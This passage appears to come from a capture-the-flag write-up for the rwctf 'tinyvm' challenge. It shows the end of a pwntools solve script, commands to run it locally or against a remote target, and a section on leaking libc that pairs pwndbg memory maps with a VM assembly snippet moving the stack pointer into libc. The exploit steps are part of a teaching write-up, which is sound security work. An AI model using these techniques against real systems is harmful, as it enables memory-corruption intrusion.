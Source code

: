 ```py
	exp = open("./exp.vm").read()
	sla(b'(< 4096) :', str(len(exp)).encode())
	s(exp.encode())

ia()
```


- run on local `./solve.py`
- run on local with `gdb` `./solve.py GDB`
- run on remote `./solve.py REMOTE`


### Leaking libc version

To do so, we have to move vm's `esp` register to point at the beginning of `libc` section in memory. We can quickly calculate offset using the debugger:

```c
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fed234f0000     0x7fed23518000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23518000     0x7fed236ad000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed236ad000     0x7fed23705000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23705000     0x7fed23709000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23709000     0x7fed2370b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
pwndbg> sp
$9 = {
  i32 = 0x1f6ec010,
  i32_ptr = 0x7fed1f6ec010,
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
pwndbg> dist 0x7fed234f0000 0x7fed1f6ec010
0x7fed234f0000->0x7fed1f6ec010 is -0x3e03ff0 bytes (-0x7c07fe words)
```

Let's verify that thesis by crafting simple vm program and running it on a local env:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp
```

results:

```c
In file: /media/sf_D_DRIVE/rwctf/tinyvm/src/tvmi.c
    8         struct tvm_ctx *vm = tvm_vm_create();
    9 
   10         if (vm != NULL && tvm_vm_interpret(vm, argv[1]) == 0)
   11                 tvm_vm_run(vm);
   12 
 ► 13         tvm_vm_destroy(vm);
   14 
   15         return 0;
   16 }
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsp 0x7ffd7eb5bdc0 —▸ 0x55756d9422a0 (main) ◂— push r14
01:0008│     0x7ffd7eb5bdc8 ◂— 0x0
02:0010│     0x7ffd7eb5bdd0 —▸ 0x55756d946df0 (__do_global_dtors_aux_fini_array_entry) —▸ 0x55756d942250 (__do_global_dtors_aux) ◂— endbr64 
03:0018│     0x7ffd7eb5bdd8 —▸ 0x7f5f81261d90 (__libc_start_call_main+128) ◂— mov edi, eax
```